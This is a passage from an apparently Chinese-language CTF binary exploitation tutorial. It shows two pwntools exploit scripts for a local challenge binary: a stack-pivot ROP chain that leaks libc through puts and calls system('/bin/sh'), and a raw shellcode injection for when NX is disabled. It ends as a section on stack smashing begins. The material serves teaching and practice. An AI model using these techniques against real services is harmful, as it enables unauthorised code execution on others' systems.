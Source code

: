 ```python
    stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00')) - 0x70
    success("stack -> {:#x}".format(stack))

    sleep(1)
    io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
    puts_addr = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00'))
    success("puts_addr -> {:#x}".format(puts_addr))

    pop_rdi_ret=0x400793

    libc = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('str_bin_sh')
    log.success('system_addr = %#x, binsh_addr = %#x'%(system_addr,binsh_addr))

    payload=flat(['22222222', pop_rdi_ret, binsh_addr, system_addr, (80 - 4*8 ) * '2', stack - 0x30, 0x4006be])

    io.sendafter(">", payload)

    io.interactive()
```

源程序没有开启NX的情况也可以通过写入shellcode的方式

```python
    from pwn import *
    context.binary = './over'
    io = process("./over")
    elf = ELF("./over")


    io.sendafter(">", 'a' * 80)
    stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00')) - 0x70
    success("stack -> {:#x}".format(stack))

    shellcode = 'a'*8 + "\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"
    # shellcode = 'a'*8 + asm(shellcraft.sh())
    payload = shellcode.ljust(0x50,'1') + p64(stack) + p64(0x4006be)

    io.sendafter('>',payload)
    io.interactive()
```

## Stack smash

在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 __stack_chk_fail 函数来打印 `argv[0]` 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下
